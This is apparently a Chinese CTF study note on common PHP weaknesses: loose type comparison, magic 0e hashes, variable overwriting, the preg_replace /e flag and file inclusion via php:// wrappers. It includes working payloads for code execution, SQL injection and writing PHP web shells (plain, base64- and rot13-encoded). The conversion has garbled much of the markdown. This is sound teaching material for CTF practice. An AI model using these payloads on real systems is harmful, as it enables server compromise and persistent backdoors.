

# PHP特性（网友整理1）
#CTF中PHP常见漏洞及利用（未完待续）


[toc]


# 一、 PHP弱类型漏洞及其利用
先看一下弱类型的定义：

PHP是弱类型语言，不需要明确的定义变量的类型，变量的类型根据使用时的上下文所决定，也就是变量会根据不同表达式所需要的类型自动转换，比如求和，PHP会将两个相加的值转为long、double再进行加和。每种类型转为另外一种类型都有固定的规则，当某个操作发现类型不符时就会按照这个规则进行转换，这个规则正是弱类型实现的基础。

## 1.1 基本弱类型漏洞
### 1.1.1 数组比较
* 在php手册中写道，当数组(array)与任何非数组进行比较时，数组总是最大的，所以有以下结果：

```Plain Text
  var_dump([]>0);        //bool(true)
  var_dump([]>9999);    //bool(true)
  var_dump([]>'a');        //bool(true) #数组大于字符串
  var_dump([[]]>[]);    //bool(true)  #自然二位数组大于一维数组

```
\### 1.1.2 bool类型的true比较\* bool类型的true跟任意字符可以弱类型相等

```Plain Text
  var_dump(true == 'a');        //bool(true)

```
\### 1.1.3 \`==\`与\`===\`的区别

#### `==`
* 在进行比较时，向将两边的类型转化成相同类型再进行比较，如果涉及到数值内容的字符串，则字符串会被转化成数值（通过\`intval()\`函数），并且按照数值大小进行比较（\`>\`、\`<\`同理）。 \*\*补充\*\*： - “根据php手册中所讲，字符串的开头决定了它转换后的值，如果该字符串以合法的数值开始，则使用该合法数值，否则其值为0” - 如果字符创中没有包含\`.\`、\`e\`、\`E\`并且其数值在整形范围内，该字符被当做int来取值，其他所有情况都被作为float来取值。 - 0e开头的字符串被认为是科学技术计数法，且0e开头的数值为0 - 当一个整形与其他类型进行比较时，会先把其他类型进行\`intval()\`后再进行比较 所以有如下结果：

```Plain Text
  var_dump(1 == '1');        //bool(true)
  var_dump(1 == '1a');        //bool(true)
  var_dump(0 == '0exxx');    //bool(true)
  var_dump(0 == 'a1');        //bool(true)


```
  var\_dump(1 + '1');        //int(2)
  var\_dump(1 + '1a');        //int(2)
  var\_dump(1 + '0exxx');    //int(1)
  var\_dump(1 + 'a1');        //int(1)
 

#### `===`
* 先判断两边类型是否相同，再比较大小。 \`===\`是防止了\`==\`弱类型比较漏洞，弱两边类型不同，则直接false而不会再进行比较。

```Plain Text
  var_dump(1 === '1');        //bool(false)
  var_dump(1 === '1a');        //bool(false)
  var_dump(0 === '0exx');    //bool(false)
  var_dump(0 === 'a1');        //bool(false)

```
\## 1.2 弱类型的函数漏洞利用

### 1.2.1 `md5()`、`sha1()`函数
* 函数介绍 md5()函数计算字符串的MD5散列，使用RSA数据安全，包括MD5报文摘要算法。 语法：\`md5(string,raw)\` 


 md5 和 sha1 无法处理数组，但是 php 没有抛出异常，直接返回 fasle。

```Plain Text
  sha1([]) === false
  md5([]) === false

```
* md5()应用 - md5()绕过\`==\` PHP在处理哈希字符串时，会利用\`!=\`或\`==\`来对哈希值进行比较，如上所示它把每一个以“0e”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都以“0e”开头，那么PHP将会认为他们相同，都是0。 如下例：

```Plain Text
  var_dump(md5('QNKCDZO') == md5(240610708))        //bool(true)
  var_dump(md5('QNKCDZO') === md5(240610708))    //bool(false)

```
上面两个值可使md5()的开头为0e，通过\`==\`弱类型比较可输出‘yes’，但无法通过\`===\`。 常用md5()开头为“0e”的字符：

```Plain Text
  md5('QNKCDZO')            //0e830400451993494058024219903391
  md5('240610708')            //0e462097431906509019562988736854
  md5('s878926199a')        //0e545993274517709034328855841020
  md5('s155964671a')        //0e342768416822451524974117254469
  md5('s214587387a')        //0e848240448830537924465865611904
  md5('s878926199a')        //0e545993274517709034328855841020
  md5('s1091221200a')        //0e940624217856561557816327384675
  md5('s1885207154a')        //0e509367213418206700842008763514

```
\- md5(\[\])绕过\`===\` 由于md5()函数不能处理数组，所以在md5()遇到数组时会警告并且返回null，然而可以忽略警告并通过数组绕过\`===\`，如下：

```Plain Text
  var_dump(@md5([]) == @md5([]))    //bool(true)
  var_dump(@md5([]) === @md5([]))    //bool(true)，@表示忽略警告
  var_dump(null === null);        //bool(true)

```
\- md5()函数\`sql\`绕过 md5 和 sha1 支持第二个参数，如果为 true，则会将 hash 后的 16 进制字符串以 16 进制转成字符串的形式返回，如果在 SQL 语句中这样写，会存在注入的问题。 提供一个字符串：\`ffifdyop\`，md5后，\`276f722736c95d99e921722cf9ed621c\` 再转成字符串：\`'or'6É\]™é!r,ùíb\`，即\`md5('ffifdyop',true) = 'or'6É\]™é!r,ùíb\`

```Plain Text
  // 可以实现绕过
  $password = "ffifdyop";
  $sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
  var_dump($sql);

```
* sha1()函数 sha1()与md5()基本原理相同，所以此处仅列出sha1()开头为“0e”的字符串。

```Plain Text
  sha1('aaroZmOk')    //0e66507019969427134894567494305185566735
  sha1('aaK1STfY')    //0e76658526655756207688271159624026011393
  sha1('aaO8zKZF')    //0e89257456677279068558073954252716165668
  sha1('aa3OFF9m')    //0e36977786278517984959260394024281014729

```
\### 1.2.2 \`strcmp()\`、\`strcasecmp()\`函数\* \`strcmp(string1, string2)\`、\`strcasecmp(string1, string2)\` 比较两个字符串，前者不区分大小写，后者区分大小写。若\`string1 > string2\`，返回\`> 0\`；若\`string1 < string2\`，返回\`< 0\`;若\`string1 = string2\`，返回\`0\`。然而该函数无法处理数组，当出现数组时，返回\`null\`。(下例中@表示忽略警告)

```Plain Text
  var_dump(@strcmp([],1));                //NULL
  var_dump(@strcmp([],'flag') == 0);    //bool(true)
  var_dump(@strcmp([],'flag') === 0);    //bool(false)

```
\### 1.2.3 \`switch()\`函数\* switch()语句用于根据多个不同的条件执行不同的动作。

```Plain Text
  $n = '2a';
  switch($n){
      case 2:
          echo 'yes';
          break;
      default:
          echo 'no';
          break;
  }


```
  //yes
 此例中，为数值类型的case，switch会将参数转换为数值（此处可理解为通过`==`进行比较。）。 

### 1.2.4 `is_numeric()`函数
* \`is\_numeric()\`函数判断变量是否为数字，是数字返回1，否则返回0。(输出为0的代码使用\`echo\`在我的环境中没有输出值，所以使用\`var\_dump()\`输出。)

```Plain Text
  echo is_numeric(1);                //1
  echo is_numeric('1');                //1
  echo is_numeric(0x1);                //1
  var_dump(is_numeric('0x1'));        //bool(false)
  var_dump(is_numeric('1a'));        //bool(false)
  var_dump(is_numeric([1]));        //bool(false)
  echo is_numeric('0e1');            //1
  var_dump(is_numeric('0ea'));        //bool(false)

```
* 例子

```Plain Text
  $temp = '';
  is_numeric($temp)?die("no numeric"):NULL;    
  if($temp > 1336){
      echo 'yes';
  }

```
此处变量temp不能为数字且要大于1336，因为是通过\`is\_numeric()\`函数判断是否为数字，然后通过\`>\`比较是否大于1336，所以可以利用这两种判断方法之间的不同来绕过。（\`>\`与\`==\`相同，在比较前会将两边变量类型转换相同）。有以下两种方法：

```Plain Text
  $temp = '3333a'    
  $temp = [1]        #数组大于任何其他类型，具体参考1.1.1

```
\### 1.2.5 \`in\_array()\`函数\* \`in\_array(search, array,\[type\])\` 函数用于搜索数组array中是否存在search的值。存在返回true，否则返回false。 type可选，\`type=true\`时表示检查搜索的数据与数组的值的类型是否相同（search为字符串时，区分大小写）。 漏洞例子：

```Plain Text
  $array=[0,1,2,'3'];
  var_dump(in_array('a', $array));            //bool(true)
  var_dump(in_array('1a', $array));            //bool(true)
  var_dump(in_array('1', $array, true));    //bool(false)

```
可以理解为，当type == false时，使用\`==\`进行比较；当type == true时，使用\`===\`进行比较。（个人理解，欢迎纠正）### 1.2.6 \`intval()\`函数\* 函数介绍 \`intval()\`函数用于获取变量的整数值。 intval() 在转换的时候，会从字符串的开始进行转换直到遇到一个非数字的字符。即使出现无法转换的字符串，intval() 不会报错而是返回 0。 语法：\`int intval(mixed \$var \[, int \$base = 10\])\`
- \$var: 要转换成integer得数量值\* \$vase: 转化所使用的进制
- 如果base是0，通过检测var的格式来决定使用的进制- 如果字符串包含了\`0x\`（或\`0X\`）的前缀，使用16进制(hex)；否则，- 如果字符串以\`"0"\`开始，使用8进制(octal)；否则，- 将使用10进制(decimal)。 范例

```Plain Text
  var_dump(intval('1'));            //int(1)
  var_dump(intval('1a'));            //int(1)
  var_dump(intval('1%001'));        //int(1)
  var_dump(intval('a1'));            //int(0)

```
# 二、 常见漏洞利用（函数）
### `sprintf()`函数
1. sprintf() 函数把格式化的字符串写入一个变量中。arg1、arg2、arg++ 参数将被插入到主字符串中的百分号（%）符号处。该函数是逐步执行的。在第一个 % 符号处，插入 arg1，在第二个 % 符号处，插入 arg2，依此类推。 语法：`sprintf(format,arg1,arg2,arg++)` 参数： 


 **注释**：  占位符详解： 当%符号多余arg参数时，需要使用占位符，占位符位于%之后，由数字和"$"组成。 栗子： <pre><code>$s = printf("first = %1\$s; second = %2\$s; third = %2\$s; last = %s",'a','b','c');
//$s = printf('first = %1$s; second = %2$s; third = %2$s; last = %s','a','b','c');

//first = a; second = b; third = b; last = a
 如栗子所示，数字与`$`组成的占位符表示不占用参数的位置（`"\$"`反斜杠为转移符），即该参数还可以再次使用，且数字可以指定使用第几个参数。去掉占位符之后，实质上格式化的还是`%s`，为字符串。  漏洞： `%`后的第一个字符，都会被当做字符类型而被吃掉。也就是当做一个类型进行匹配后面的变量。如`%c`匹配ascii码，`%d`匹配整数，如果不在定义中的也会进行匹配，匹配为空。比如`%\`匹配任何参数都为空。 如一道中部分代码：  <?php
...
$username = addslashes($\_POST\['username'\]);
$username = sprintf("username = '%s' ",$username);
$password =$\_POST\['password'\];
...
$sql = sprintf("select * from t where$username and password = '%s' ", \$password);
...
?>
 构造payload`username = admin%1$' and 1 = 1#`，可以使单引号逃逸，导致存在sql盲注。 

### `mt_rand()`函数

* mt\_rand() 使用 Mersenne Twister 算法返回随机整数。 \*\*语法\*\*：\`mt\_rand(min,max)\` \*\*说明\*\*：
1. 随机返回min到max之间的随机数。如果没有提供可选参数 min 和 max，\`mt\_rand()\`返回 0 到 RAND\_MAX 之间的伪随机数。例如想要 5 到 15（包括 5 和 15）之间的随机数，用 \`mt\_rand(5, 15)\`。1. 自 PHP 4.2.0 起，不再需要用 srand() 或 mt\_srand() 函数给随机数发生器播种，现在已自动完成。使用固定数值播种产生的随机数是相同的，如下例：

```Plain Text
 mt_srand(1);
echo mt_rand()."\n";        //1244335972
echo mt_rand()."\n";        //15217923

```
该例中使用1播种产生的随机数值顺序总是相同的。ctf实例

```Plain Text
 <?php
 show_source(__FILE__);
 include "flag.php";
 $a = @$_REQUEST['hello'];
 $seed = @$_REQUEST['seed'];
 $key = @$_REQUEST['key'];

 mt_srand($seed);
 $true_key = mt_rand();
 if ($key == $true_key){
     echo "Key Confirm";
 }
 else{
     die("Key Error");
 }
 eval( "var_dump($a);");
 ?>

```
代码需要先接受一个种子seed进行播种，然后再进行去随机数，所以该随机数我们是可以预测得到的。通过预测的随机数key等于产生的随机数。变量hello没有任何过滤，所以可以通过构造hello执行eval()内的php代码爆出flag。 最终payload为：

```Plain Text
 http://120.55.43.255:27189/
 POST:seed=1&key=1244335972&hello=);system('cat flag.php');echo(0

```
### PHP复杂变量`${}`
* \`\${}\`介绍 php中\`\${可执行函数}\`，可利用此特性在PHP的赋值代码中执行系统命令。 栗子：

```Plain Text
 //test.php：
 <?php
 eval('$string = "'.$_GET[cmd].'";');
 ?>

```
在此环境中，仅有一个赋值语句，将传入的cmd变量值赋值给\`\$string\`，利用复杂变量即可执行系统命令。

```Plain Text
 //payload:
 http://127.0.0.1/test.php?cmd=${phpinfo()}
 http://127.0.0.1/test.php?cmd=${system('ls')}
 http://127.0.0.1/test.php?cmd=${system('cat echo.php')}

```
\# 三、 变量覆盖漏洞

通常将可以用自定义的参数值代替原有变量值的情况称为变量覆盖漏洞，经常导致变量覆盖漏洞的情况有：\$\$使用不当，extract()函数使用不当，parse\_str()函数使用不当，import\_request\_variables()使用不当，开启了全局变量注册等

## 3.1 `$$`的使用
* \`\$\$\`为可变变量，简单应用如下：

```Plain Text
 $a = 'hello';
 $hello = 'world';
 echo $$a;            //world

```
* ctf实例：

```Plain Text
 <?php
 include('flag.php);    
 $_403 = "Access Denied";
 $_200 = "Welcome Admin";
 if ($_SERVER["REQUEST_METHOD"] != "POST")
     die("BugsBunnyCTF is here :p…");
 if ( !isset($_POST["flag"]) )
     die($_403);
 foreach ($_GET as $key => $value)
     $$key = $$value;
 foreach ($_POST as $key => $value)
     $$key = $value;
 if ( $_POST["flag"] !== $flag )
     die($_403);
 echo "This is your flag : ". $flag . "\n";
 die($_200);
 ?>

```
\*\*题目分析\*\*： 此题关键在于，post提交的数据必须要有flag变量，然而这会覆盖最初的flag。破解在于\`die(\$\_200);\`，这会输出变量\`\_200\`的值，所以可以把变量\`flag\`赋值给变量\`\_200\`。 \*\*解题方法\*\*： 构造如下payload：

```Plain Text
 GET: /?_200=flag
 POST: flag=a

```
\## 3.2 \`extract()\`函数\* 函数介绍 \`extract()\`函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中每个元素，将在当前符号表中创建一个对应的变量 语法：\`extract(array, extract\_rules, prefix)\`，详情参考 


 栗子：

```Plain Text
 $a = "Original";
 $my_array = array("a" => "Cat", "b" => "Dog", "c" => "Horse");
 extract($my_array, EXTR_PREFIX_SAME, "dup");
 echo "\$a = $a; \$b = $b; \$c = $c; \$dup_a = $dup_a";


```
 //$a = Original;$b = Dog; $c = Horse;$dup\_a = Cat
  ctf实例  <?php
 \$flag = 'xxx';
 extract(\$\_GET);
 if (isset(\$gift)) {
     $content = trim(file_get_contents($flag));
     if ($gift ==$content) {
         echo 'flag{This\_is\_flag}';
     } else {
         echo 'Oh..no..flag';
     }
 } 
 ?>
 **题目分析**： 使用`extract($_GET)`接收GET请求的数据，并将键名和键值转变为变量名和变量值，然后通过两个if条件判断即可输出flag。可以使用GET提交参数和值，利用`extract()`对变量进行覆盖，从而满足if判断条件。 **解题方法**：  GET：?flag=&gift=
 `extract()`会将


```Plain Text
      f


      l


      a


      g


      和


     flag和


  flag和gift的值覆盖为空。`$content = file_get_contens()`的文件为空或不存在时则返回空值（会出现警告），即可以满足条件`$gift == $content`。</p> </li>
```
## 3.3 `parse_str()`函数
* 函数介绍 \`parse\_str()\`函数把查询字符串解析到变量中，如果未设置array参数，由该函数设置的变量将覆盖已存在的同名变量。 语法：\`parse\_str(string, array)\`，详情参考 


 栗子：

```Plain Text
 parse_str("name=Peter&age=43",$myArray);
 print_r($myArray);


```
 //Array ( \[name\] => Peter \[age\] => 43 )
  ctf实例  <?php
 error\_reporting(0);
 if (empty(\$\_GET\['id'\])) {
     show\_source(**FILE**);
     die();
 } else {
     include ('flag.php');
     \$a = "www.OPENCTF.com";
     $id =$\_GET\['id'\];
     @parse\_str(\$id);
     if ($a[0] != 'QNKCDZO' &amp;&amp; md5($a\[0\]) == md5('QNKCDZO')) {
         echo \$flag;
     } else {
     exit('其实很简单其实并不难！');
     }
 }
 ?> 
 **题目分析**： 首先要求使用GET提交id参数，然后`parse_str($id)`对id参数进行数据处理，如果`$a[0] != 'QNKCDZO' &amp;&amp; md5($a[0]) == md5('QNKCDZO')`则可以输出flag（此处可参考上文md5（）函数漏洞），所以可通过覆盖变量a使之满足if条件。 **解题方法**：  GET:?id=a\[\]=s1885207154a
 通过`parse_str($id)函数`变量`a[]=s1885207154a`会覆盖`$a = "www.OPENCTF.com"`。然后`md5(a[])=0e509367213418206700842008763514`,`md5('QNKCDZO')=0e830400451993494058024219903391`,if条件即可满足。 

## 3.4 `import_request_variables`函数
未完待定

# 四、 正则表达式
* 简介 正则表达式是一种描述字符串结果的语法规则，是一个特定的格式化模式，可以匹配，替换，截取匹配的字符串。标识一个正则表达式的开始和结束可以使用\`/\`、\`#\`、\`{\`、\`}\`，为避免混淆，建议使用\`/\`、\`#\`。如下：

```Plain Text
  $pattern='/[0-9]/';    #更常用
  $pattern='#[0-9]#';

```
详细内容篇幅过长，详情参考## 4.1 \`eregi()\`、\`ereg()\`函数 1. 函数介绍 \`eregi()\`、\`ereg()\`函数在一个字符串搜索指定的模式的字符串，搜索不区分大小写，如果匹配成功则返回true，否则返回false。PHP 5.3x不再支持该函数（还好我的古老的环境只有5.2.6）。 语法\`int eregi(string pattern, string string ,\[array regs\]);\`\* 漏洞及利用 \`eregi()\`函数读取字符串时，%00后面的字符串不会被解析，所以可以利用这个漏洞绕过一些字符串比较。

```Plain Text
 var_dump(ereg ("^[a-zA-Z]+$", $_GET[a]));    #GET:?a=abc            //int(1)
 var_dump(ereg ("^[a-zA-Z]+$", $_GET[a]));    #GET:?a=abc%00123    //int(1)

```
可见\`ereg()\`函数阶段了%00,。## 4.2 \`preg\_replace()\`函数\* 函数介绍 函数执行一个正则表达式的搜索和替换 语法：\`mixed preg\_replace(mixed \$pattern, mixed \$replacement, mixed \$subject \[, int \$limit = -1 \[, int &\$count\]\])\` 1. \$pattern: 要搜索的模式，可以是字符串或一个字符串数组。 1. \$replacement: 用于替换的字符串或字符串数组。 1. \$subject: 要搜索替换的目标字符串或字符串数组。 1. \$limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。 1. \$count: 可选，为替换执行的次数。 如果subject是一个数组，\`preg\_replace()\`返回一个数组，其他情况下返回一个字符串；如果匹配被查找到，替换后的subject被返回，其他情况下返回没有改变的subject；如果发生错误，返回NULL。

* 漏洞及利用 \`preg\_replace()\`的第一个参数\$pattern如果存在\`/e\`模式修饰符，则允许代码执行。（如果不存在/e，可试%00截断）

```Plain Text
 preg_replace("/test/e",$_GET["chabug"],"jutst test");    #GET:chabug=phpinfo()    //可执行phpinfo()代码

```
\# 五、 PHP伪协议结合文件包含漏洞

此处已有大佬的详细总结（ ），不过由于我在访问时出现了部分代码显示不完整及链接失效等情况，为防止资源完全失效，同时加深个人理解，决定还是自己码一下。

## 5.1 包含函数
常见的文件包含函数：`include()`、`include_once()`、`require()`、`require_once()`、`highlight_file()`、`show_source()`、`readfile()`、`file_get_contents()`、`fopen()`、`file()`。

* php中引发文件包漏洞的通常是以下四个函数： - \`include()\`- \`include\_once()\`- \`require()\`- \`require\_once()\` \`require()\`如果在包含过程中有错，比如文件不存在，则会直接退出，不执行后续语句。 \`include()\`如果出错，只是提出警告，会继续执行后续语句。 \`require\_once()\`和\`include\_once()\`功能与\`require()\`和\`include()\`类似，但如果一个文件已经被包含过，\`require\_once()\`和\`include\_once()\`则不会再次包含它，以避免函数重定义或变量重复值等问题。 \*\*重点\*\*：当利用这四个函数来包含文件时，不管文件时什么类型（图片，txt等），都会被直接作为php文件进行解析。
* 分类 - LFI(Local File Inclusion) 本地文件包含漏洞，顾名思义，指的是能打开并包含本地文件漏洞。大部分情况下遇到的都是LFI。- FRI(Remote File Inclusion) 远程文件包含漏洞。是指能够包含远程服务器上的文件并执行。由于远程服务器的文件使我们可控的，因此漏洞一旦存在危害性很大。 但RFI的利用条件较为苛刻，需要php.ini中进行配置： 1. \`allow\_url\_fopen=On\`# #php5.2之后默认关闭。（On）允许包含URL对象文件等。
- 使用场景 1. 具有相关的文件包含函数 2. 文件包含函数中存在动态变量，如\`include \$file;\` 3. 攻击者能够控制该变量，比如\`\$file = \$\_GET\['file'\];\` ## 5.2 伪协议

涉及的相关协议：`file://`、`php://filter`、`php://input`、`zip://`、`compress.bzip2://`、`compress.zlib://`、`data://`，此处先讨论自己了解的协议，逐渐补充ing。

### php://input
* 简介 `php://`:是个可以访问请求的原始数据的只读流。POST请求的情况下，最好用`php://input`来代替`$HTTP_RAW_POST_DATA`，因为他不依赖于特定的`php.ini`指令，而且，这样的情况下`$HTTP_RAW_POST_DATA`默认没有填充，比激活`always_populate_raw_post_data`潜在需要更少的内存，`enctype="multipart/form-data"`的时候`php://input`是无效的。 简单理解：除`enctype="multipart/form-data"`外，获取POST数据（可作为php代码执行）。 -  使用条件 1. allow\_url\_include = On 2. allow\_url\_fopen = Off/On #无要求  范例 环境：   //input.php
<?php
include(\$\_GET\[file\]);
?>
 应用：   //payload

  \[POST DATA 1\]:<?php phpinfo();?>
  \[POST DATA 2\]:<?php system('ls');?>
  \[POST DATA 3\]:<?php fputs(fopen("shell.php","w"),'<?php @eval(\$\_POST\[cmd\]);?>');?>    #我没写入成功，原因待查。
 

### php:filter
* 介绍 `php://filter` 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 `readfile()`、`file()`和`file_get_contents()`， 在数据流内容读取之前没有机会应用其他过滤器。 `php://filter`目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。 


 -  使用条件 1. allow\_url\_include = Off/On #无要求 2. allow\_url\_fopen = Off/On #无要求  范例 环境：   //filter.php
<?php
include(\$\_GET\[file\]);
?>
 应用：   //payload

  \[GAT DATA 3\]:    filter.php?file=php://filter/resource=php://input    \[POST DATA\]:    <?php phpinfo();?>
  ctf例题 记录一个ctf例题，来自。感觉使用特别巧妙，主要记录一下使用方法，具体详情请膜拜大佬。 题目主要环境：   //ctf环境
  <?php
  \$content = '<?php exit; ?>';
  $content .=$\_POST\['txt'\];
  file\_put\_contents($_POST['filename'],$content); 
 解题方法：   //payload
  \[POST DATA 1\]: txt=aPD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+&filename=php://filter/write=convert.base64-decode/resource=webshell.php
  \[POST DATA 2\]: txt=PD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+&filename=php://filter/string.strip\_tags|convert.base64-decode/resource=webshell.php
  \[POST DATA 3\]: txt=<?cuc @riny(\$\_CBFG\[pzq\]);?>&filename=php://filter/write=string.rot13/resource=webshell.php    #在PHP不开启short\_open\_tag时，php不认识这个字符串
 

## 5.3 包含session
* 简介 PHP session 变量用于存储关于用户会话（session）的信息，或者更改用户会话（session）的设置。Session 变量存储单一用户的信息，并且对于应用程序中的所有页面都是可用的。在您把用户信息存储到 PHP session 中之前，首先必须使用\`session\_start()\`启动会话。 php的session文件的保存路径可以再phpinfo的session.save\_path查询到 


 


 常见的php-session存放位置：

```Plain Text
  /var/lib/php/sess_PHPSESSID
  /var/lib/php/sess_PHPSESSID
  /tmp/sess_PHPSESSID
  /tmp/sessions/sess_PHPSESSID  

```
session的文件名格式为sess\_\[phpsessid\]。而phpsessid在发送的请求的cookie字段中可以看到。\* 范例

```Plain Text
  <?php session_start(); 
  $_SESSION['view'] = 1;
  echo $_SESSION['view'];
  ?>


```
  <html>
  <body>

  </body>
  </html>

  //1
 -  ctf例题 记录一道伪协议和session包含的ctf例题，来自， 

# 七、 执行系统外部命令
php提供了四种执行外部系统命令的方法：`system()`、`exec()`、`shell_exec()`、`passthru()`，这些命令可在`phpinfo()`的`disable_functions`中查询是否禁用，一般默认不禁用的。 



* \`system()\`函数 \*\*语法\*\*：\`function system(string \$command,int\[optional\] \$return\_value)\` \*\*介绍\*\*： \`command\`传入给定的命令，\`return\_value\`是可选的，用来得到命令执行后的状态码,如果执行命令成功则返回True，否则返回false。 \`system()\`在执行外部命令时，直接将结果输出到浏览器，不需要使用echo或return来查看结果， \*\*栗子\*\*：

```Plain Text
 <?php
 system('ls /');
 ?>

```
* \`passthru()\`函数 \*\*语法\*\*：\`function passthru(string \$command,int\[optional\] \$return\_value)\` \*\*介绍\*\*： \`passthru()\`直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，不返回任何值，且其可以输出二进制，比如图像数据。 \*\*栗子\*\*：

```Plain Text
 <?php
 passthru('pwd');
 ?>

```
* \`exec()\`函数 \*\*语法\*\*：\`function exec(string \$command,array\[optional\] \$output,int\[optional\] \$return\_value)\` \*\*介绍\*\*： \`exec()\` 执行系统外部命令时不会输出结果，而是返回结果的最后一行，需要使用echo等函数进行输出。如果你想得到结果你可以使用第二个参数，让其输出到指定的数组，此数组一个记录代表输出的一行，即如果输出结果有20行，则这个数组就有20条记录。 ：

```Plain Text
 <?php
 echo exec("ls",$file);
 echo "</br>";
 print_r($file);
 ?>
 //输出：
 //test.php
 //Array( [0] => index.php [1] => test.php)

```
* \`shell\_exec()\`和反引号(\`) shell\_exec() 函数实际上仅是反引号(\`)操作符的变体，都不会输出结果，需要使用echo等函数打印出结果。 \`栗子\`：

```Plain Text
 <?php
 echo `pwd`;
 echo shell_exec('pwd');
 ?>  

```
\# 八、 PHP别名

`php2`、`php3`、`php4`、`php5`、`phps`、`pht`、`phtm`、`phtml`

# 参考：